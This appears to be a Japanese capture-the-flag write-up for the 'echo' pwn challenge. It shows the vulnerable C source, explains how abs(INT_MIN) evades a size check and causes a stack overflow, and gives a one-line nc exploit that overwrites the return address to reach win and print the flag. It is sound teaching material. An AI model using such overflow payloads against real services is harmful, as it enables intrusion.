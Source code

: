 # echo:Pwn:129pts
A service for reachability check.  

[echo.tar.gz](echo.tar.gz)  

`nc 34.170.146.252 17360`  

# Solution
ソースと接続先が渡される。  
```bash
$ nc 34.170.146.252 17360
Size: 6
Data: Satoki
Received: Satoki
```
接続すると`Size`と`Data`を入力でき、`Received`として受け取ったデータが表示される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

/* Call this function! */
void win() {
  char *args[] = {"/bin/cat", "/flag.txt", NULL};
  execve(args[0], args, NULL);
  exit(1);
}

int get_size() {
  // Input size
  int size = 0;
  scanf("%d%*c", &size);

  // Validate size
  if ((size = abs(size)) > BUF_SIZE) {
    puts("[-] Invalid size");
    exit(1);
  }

  return size;
}

void get_data(char *buf, unsigned size) {
  unsigned i;
  char c;

  // Input data until newline
  for (i = 0; i < size; i++) {
    if (fread(&c, 1, 1, stdin) != 1) break;
    if (c == '\n') break;
    buf[i] = c;
  }
  buf[i] = '\0';
}

void echo() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data: ");
  get_data(buf, size);

  // Show data
  printf("Received: %s\n", buf);
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  echo();
  return 0;
}
```
`win`関数が見えるため、BOFでそちらに飛ばす問題だとわかる。  
`get_size`では入力の絶対値が`BUF_SIZE`(`0x100`)を超えている場合に終了してしまう。  
intであるので、最大値より大きい`2147483648`を入力するとオーバーフローにより`-2147483648`となる。  
これに`abs`関数を用いても、なぜかマイナスのままとなり`0x100`との比較を突破できる。  
さらに`get_data`の`size`は`unsigned`であるので、`2147483648`はそのままの数値として扱われる。  
つまりバッファ`0x100`を超えて書き込みができる。  
以下のように`win`へ飛ばせばよい。  
```bash
$ gdb -q ./echo
~~~
pwndbg> disass win
Dump of assembler code for function win:
   0x00000000004011f6 <+0>:     endbr64
   0x00000000004011fa <+4>:     push   rbp
   0x00000000004011fb <+5>:     mov    rbp,rsp
   0x00000000004011fe <+8>:     sub    rsp,0x20
~~~
$ echo -e '2147483648\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x11\x40\x00' | nc 34.170.146.252 17360
Size: Data: Received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
Alpaca{s1Gn3d_4Nd_uNs1gn3d_s1zEs_c4n_cAu5e_s3ri0us_buGz}
```
flagが得られた。  

## Alpaca{s1Gn3d_4Nd_uNs1gn3d_s1zEs_c4n_cAu5e_s3ri0us_buGz}